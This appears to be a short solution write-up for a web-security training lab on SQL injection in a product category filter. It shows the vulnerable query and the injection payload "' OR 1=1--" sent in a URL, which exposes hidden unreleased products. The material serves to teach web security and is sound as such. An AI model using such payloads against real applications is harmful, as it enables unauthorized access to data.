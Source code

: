 # Lab 01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Description

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

---

## Solution

To cause the application to display the details of all products in **any category**, both **unreleased** and **released**, make an HTTP request to the following URI:

```txt
/filter?category='+OR+1=1--
```

Which produces the following SQL query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
```